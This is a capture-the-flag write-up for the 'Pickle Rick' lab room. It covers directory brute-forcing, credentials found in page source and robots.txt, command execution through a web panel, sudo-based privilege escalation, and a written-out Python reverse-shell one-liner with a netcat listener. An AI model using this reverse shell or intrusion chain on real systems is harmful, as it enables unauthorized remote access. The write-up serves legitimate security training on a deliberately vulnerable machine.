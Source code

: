 # Pickle Rick Challenge

## Room Info
- Name: Pickle Rick
- Difficulty: Easy
- Category: Linux / Web
- Focus: Enumeration, Credential Discovery, Remote Code Execution, Privilege Escalation

## Objectives
- Find Rick’s three secret ingredients
- Gain access to the web server
- Escalate privileges to root

## Exploitation

Upon visiting http://machine_ip, I inspected the page source and found a hidden HTML comment containing a username

![User Name](finding-user.png)

I then ran a directory brute-force scan using Gobuster to uncover hidden paths:
``gobuster dir -u http://machine_ip -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -t 50 -x php,txt``

![Gobuster Results](discovery.png)

I checked robots.txt for hidden paths and found what appears to be the password 

![Password](finding-the-password.png)

I then navigated to /login.php, entered the credentials, and successfully authenticated

![Login Panel](signing.png)

After logging in, I tested the command panel by running ``ls`` and it executed successfully, confirming Remote Command Execution (RCE)

![command panel](commande-panel-ls.png)

After this i attempted to read a file using the ``cat`` command 
However, the command failed to execute, indicating that the panel likely sanitizes or restricts certain commands, especially those used for file reading.

![command panel cat](commande-panel-cat.png)

To bypass this limitation, I decided to spawn a reverse shell to gain full terminal access.


 I checked whether Python was installed and which version was available by running ``which python`` in the commande panel

 ![Python version](finding-python-version.png)

 After confirming that python3 was installed, i crafted a reverse shell payload based on the PentestMonkey cheat sheet
 <pre>
 python3 -c 'import socket,subprocess,os; s=socket.socket(); s.connect(("Attack_machine_ip",port_number)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.run(["/bin/sh","-i"])'
</pre>

On my local machine, I started a Netcat listener to catch the shell
``nc -nlvp 9999``

After submitting the payload through the command panel, I received a reverse shell connection, granting me interactive access to the target system.

![reverse shell access](reverse-shell.png)

Once the reverse shell was established i found the first secret ingredients in the Sup3rS3cretPickl3Ingred.txt file

![First Ingridient](first-ingridient.png)

The clue.txt i found 
``Look around the file system for the other ingredient.``

began exploring the file system to locate Rick’s secret ingredients. I started by navigating to the ``/home`` directory where i found ``rick`` directory where i found a file named  ``second-ingredient.txt`` containing the second secret ingredient

![Second Ingridient](second-ingridient.png)

After retrieving the second ingredient, I attempted to access the /root directory ``cd /root``  access denied — as expected for a non-root user.

To explore privilege escalation options, I ran ``sudo -l``

![Root ](access-to-root.png)

Output revealed that I could run commands as root without a password.

I leveraged this to list the contents of /root and found the third and final secret ingredient.

![final ingridient](3rd-ingridient.png)

